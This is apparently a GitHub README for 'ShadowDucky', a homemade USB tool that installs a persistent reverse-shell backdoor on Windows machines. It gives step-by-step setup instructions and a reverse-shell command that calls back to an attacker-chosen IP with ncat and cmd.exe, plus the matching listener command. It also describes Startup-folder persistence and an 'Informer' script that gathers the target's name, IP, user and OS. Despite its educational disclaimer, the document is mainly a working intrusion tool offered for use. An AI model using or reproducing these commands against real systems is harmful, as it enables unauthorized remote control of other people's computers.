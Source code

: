 # ShadowDucky-USB

![ShadowDucky](https://user-images.githubusercontent.com/122622018/214044473-d0ce4b61-d29f-4951-b54e-67dd459dee8a.png)


This is a home made "Rubber Ducky". it gives the user a reverse shell and can grab information for Windows to Windows Application

NOTE: most of the file paths in the files start with "D:\" this is because its application is from a USB. aswell as the folder "ShadowDuckyV1.2A" folder is not needed the proper format for the flashdrive is how its set up inside that folder.
NOTE: Shortcuts may have to be re-made for your application.


------------WELCOME TO SHADOW DUCKY... -------------------------------------------------TRY AND READ THE HIDDEN MESSAGE...-----------------------------

INFO: This is a USB remote back door. This program "ShadowDucky" will run when
"ShadowDuckyV2.vsb" is double clicked. Some of the files will have to be edited
in notepad to suit it best for it's application. Please follow the listed instructions
below to help you properly run "ShadowDucky". 

This was created as a project to learn Powershell functionality, scripting with different
coding languages, and reverse shelling. This is a reverse shell for Windows to Windows.

NOTE: Required rescourses will be Powershell, Nmap, Windows.

ShadowDucky: Uses a combination of VBScript, ".bat" cmd and powershell functionality.
This program once ran will move the RubberDucky.bat into the "Intel" file and the 
"ShadowDucky.vsb" to the Startup folder to activate each time the computer starts
up and is logged into. It will continuesly ping the host computer until a connection
is made, after the host disconnects it will resume pinging until theres a new connection.
Each time the target computer is on it will allow for a reverse shell from a remote device at anypoint in time 
(as long as target device is on).

NOTE: ShadowDucky runs in the background for better use.

-------------------------------------------------------------INSTRUCTIONS-----------------------------------------------------------------------------

1st: You will need to install "nmap" on both your computer and target device in order to use ShadowDucky.
Nmap: https://nmap.org/download

2nd: You will need to place the IP of your host device into "RubberDucky.bat"
     you place IP of host and PORT being used into that function.

EX: powershell -command do {ncat FF.FF.FF.FF PORT -e cmd.exe} until ($ping) 
EX: powershell -command do {ncat 00.00.00.00 0000 -e cmd.exe} until ($ping)


3th: After settings are changed, plug ShadowDucky usb into target device
     and double click ShadowDuckyV2.vbs and watch the show.
	 return to Host device and use powershell and use the following command 
	 to connect the target device.
	 
EX: ncat -l -p PORT -v
EX: ncat -l -p 0000 -v
    make sure the port is the same number as the port set up in "RubberDucky.bat"	 

4th:ENJOY @-[:]

HIDDEN MESSAGE: sx& vqz& rlj& bulf& gost& kztg& djqp& gou& hzggtum& olt& huazj& ljf& sw& lnbulfv& sj& oubu& plndsja& lbqzjf&.& &Solfqp& qb& jqg& vqz& rljg& tuu& wu

ADVISEMENT & DISCLAIMER: This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s). 
+---------+
| Shadow  |
|   Drums |
|  TM     |
+---------+
-----------------------------------------------------------------------------

--------------WELCOME TO SHADOW DUCKY INFORMER-------------------------------------------

NOTICE: USE INFORMER BEFOR SHADOWDUCKY TO GET INFO TO SET UP SHADOWDUCKY FOR USAGE

ShadowDucky Informer helps with getting the information you need in order to edit and 
use ShadowDucky. "This Informer" will give the user a print out in the ShadowDucky USB,
Intel-Report Folder. The current computers name, IPv4, User Name, and OS will be printed
out into Intel-Report.txt

--------------------------------------INSTRUCTIONS---------------------------------------

Double click Informer.vbs and wait a minute for your report to be given.
After one minute check the Intel-Report Folder and use the information
in the ".txt" to set up ShadowDucky.

TO SET UP SHADOWDUCKY:

Read the "README.txt" in the README Folder

-----------------------------------------------------------------------------------------

          DISCLAIMER:   This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s).
------------
|  Shadow  |
|    Drums |
|   TM     |
------------
-----------------------------------------------------------------------------

Please Be Responsible
